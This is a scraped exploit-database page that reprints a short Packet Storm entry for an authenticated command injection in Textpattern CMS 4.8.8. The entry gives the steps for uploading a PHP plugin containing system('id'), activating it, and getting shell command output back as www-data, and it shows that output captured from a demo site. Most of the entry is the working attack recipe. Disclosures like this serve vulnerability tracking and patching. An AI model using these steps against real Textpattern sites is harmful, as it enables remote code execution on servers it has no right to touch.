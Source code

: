 ```yaml
---
title: Textpattern CMS 4.8.8 Command Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172967&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-17
fetch_date: 2025-10-04T11:44:33.767392
---
```


# Textpattern CMS 4.8.8 Command Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Textpattern CMS 4.8.8 Command Injection

2023-06-16 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172967
# Exploit Title: Textpattern CMS v4.8.8 - Command Injection (Authenticated)
# Date: 2023-06-15
# Exploit Author: tmrswrr
# Vendor Homepage: https://textpattern.com/
# Software Link: https://textpattern.com/file_download/118/textpattern-4.8.8.zip
# Version: v4.8.8
# Tested : https://release-demo.textpattern.co/

--- Description ---

Textpattern CMS Upload Plugin Command Injection:
1) Login admin page , choose Plugin , Choose command.php file inside this payload: :
system('id');
2) Save it and do Active plugin yes and click Update from disk
3) After open page you will see result:
https://release-demo.textpattern.co/
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)